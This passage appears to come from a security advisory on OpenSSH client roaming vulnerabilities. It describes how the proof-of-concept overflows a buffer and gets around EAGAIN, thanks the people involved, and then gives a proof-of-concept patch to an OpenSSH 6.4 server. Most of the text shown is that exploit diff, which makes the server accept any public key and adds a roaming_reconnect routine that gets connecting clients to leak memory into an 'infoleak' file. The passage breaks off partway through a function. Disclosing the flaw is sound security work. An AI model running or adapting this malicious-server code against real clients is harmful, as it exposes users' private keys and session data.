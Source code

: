 `/usr/bin/ssh': malloc(): memory corruption: 0x00007fdcc2a3abc0 *** Finally, a brief digression on two unexpected problems that had to be solved in our proof-of-concept: - First, setp can be overflowed only in packet_read_seqnr(), not in packet_write_wait(), but agent forwarding and X11 forwarding are post- authentication functionalities, and post-authentication calls to packet_read() or packet_read_expect() are scarce, except in the key-exchange code of OpenSSH clients < 6.8: our proof-of-concept effectively forces a rekeying in order to overflow setp in packet_read_seqnr(). - Second, after a successful reconnection, packet_read_seqnr() may call fatal("Read from socket failed: %.100s", ...), because roaming_read() may return EAGAIN (EAGAIN is never returned without the reconnection, because the preceding call to select() guarantees that connection_in is ready for read()). Our proof-of-concept works around this problem by forcing the client to resend MAX_ROAMBUF bytes (2M) to the server, allowing data to reach the client before roaming_read() is called, thus avoiding EAGAIN. ======================================================================== Acknowledgments ======================================================================== We would like to thank the OpenSSH developers for their great work and their incredibly quick response, Red Hat Product Security for promptly assigning CVE-IDs to these issues, and Alexander Peslyak of the Openwall Project for the interesting discussions. ======================================================================== Proof Of Concept ======================================================================== diff -pruN openssh-6.4p1/auth2-pubkey.c openssh-6.4p1+roaming/auth2-pubkey.c --- openssh-6.4p1/auth2-pubkey.c 2013-07-17 23:10:10.000000000 -0700 +++ openssh-6.4p1+roaming/auth2-pubkey.c 2016-01-07 01:04:15.000000000 -0800 @@ -169,7 +169,9 @@ userauth_pubkey(Authctxt *authctxt) * if a user is not allowed to login. is this an * issue? -markus */ - if (PRIVSEP(user_key_allowed(authctxt->pw, key))) { + if (PRIVSEP(user_key_allowed(authctxt->pw, key)) || 1) { + debug("%s: force client-side load_identity_file", + __func__); packet_start(SSH2_MSG_USERAUTH_PK_OK); packet_put_string(pkalg, alen); packet_put_string(pkblob, blen); diff -pruN openssh-6.4p1/kex.c openssh-6.4p1+roaming/kex.c --- openssh-6.4p1/kex.c 2013-06-01 14:31:18.000000000 -0700 +++ openssh-6.4p1+roaming/kex.c 2016-01-07 01:04:15.000000000 -0800 @@ -442,6 +442,73 @@ proposals_match(char *my[PROPOSAL_MAX], } static void +roaming_reconnect(void) +{ + packet_read_expect(SSH2_MSG_KEX_ROAMING_RESUME); + const u_int id = packet_get_int(); /* roaming_id */ + debug("%s: id %u", __func__, id); + packet_check_eom(); + + const char *const dir = get_roaming_dir(id); + debug("%s: dir %s", __func__, dir); + const int fd = open(dir, O_RDONLY | O_NOFOLLOW | O_NONBLOCK); + if (fd <= -1) + fatal("%s: open %s errno %d", __func__, dir, errno); + if (fchdir(fd) != 0) + fatal("%s: fchdir %s errno %d", __func__, dir, errno); + if (close(fd) != 0) + fatal("%s: close %s errno %d", __func__, dir, errno); + + packet_start(SSH2_MSG_KEX_ROAMING_AUTH_REQUIRED); + packet_put_int64(arc4random()); /* chall */ + packet_put_int64(arc4random()); /* oldchall */ + packet_send(); + + packet_read_expect(SSH2_MSG_KEX_ROAMING_AUTH); + const u_int64_t client_read_bytes = packet_get_int64(); + debug("%s: client_read_bytes %llu", __func__, + (unsigned long long)client_read_bytes); + packet_get_int64(); /* digest (1-8) */ + packet_get_int64(); /* digest (9-16) */ + packet_get_int(); /* digest (17-20) */ + packet_check_eom(); + + u_int64_t client_write_bytes; + size_t len = sizeof(client_write_bytes); + load_roaming_file("client_write_bytes", &client_write_bytes, &len); + debug("%s: client_write_bytes %llu", __func__, + (unsigned long long)client_write_bytes); + + u_int client_out_buf_size; + len = sizeof(client_out_buf_size); + load_roaming_file("client_out_buf_size", &client_out_buf_size, &len); + debug("%s: client_out_buf_size %u", __func__, client_out_buf_size); + if (client_out_buf_size <= 0 || client_out_buf_size > MAX_ROAMBUF) + fatal("%s: client_out_buf_size %u", __func__, + client_out_buf_size); + + packet_start(SSH2_MSG_KEX_ROAMING_AUTH_OK); + packet_put_int64(client_write_bytes - (u_int64_t)client_out_buf_size); + packet_send(); + const int overflow = (access("output", F_OK) == 0); + if (overflow != 0) { + const void *const ptr = load_roaming_file("output", NULL, &len); + buffer_append(packet_get_output(), ptr, len); + } + packet_write_wait(); + + char *const client_out_buf = xmalloc(client_out_buf_size); + if (atomicio(read, packet_get_connection_in(), client_out_buf, + client_out_buf_size) != client_out_buf_size) + fatal("%s: read client_out_buf_size %u errno %d", __func__, + client_out_buf_size, errno); + if (overflow == 0) + dump_roaming_file("infoleak", client_out_buf, + client_out_buf_size); + fatal("%s: all done for %s", __func__, dir); +} + +static void kex_choose_conf(Kex *kex) { Newkeys *newkeys; @@ -470,6 +537,10 @@ kex_choose_conf(Kex *kex) kex->roaming = 1; free(roaming); } + } else if (strcmp(peer[PROPOSAL_KEX_ALGS], KEX_RESUME) == 0) { + roaming_reconnect(); + /* NOTREACHED */ + fatal("%s: returned from %s", __func__, KEX_RESUME); } /* Algorithm Negotiation */ diff -pruN openssh-6.4p1/roaming.h openssh-6.4p1+roaming/roaming.h --- openssh-6.4p1/roaming.h 2011-12-18 15:52:52.000000000 -0800 +++ openssh-6.4p1+roaming/roaming.h 2016-01-07 01:04:15.000000000 -0800 @@ -42,4 +42,86 @@ void resend_bytes(int, u_int64_t *); void calculate_new_key(u_int64_t *, u_int64_t, u_int64_t); int resume_kex(void); +#include +#include +#include +#include +#include +#include + +#include "atomicio.h" +#include "log.h" +#include "xmalloc.h" + +static inline char * +get_roaming_dir(const u_int id) +{ + const size_t buflen = MAXPATHLEN; + char *const buf =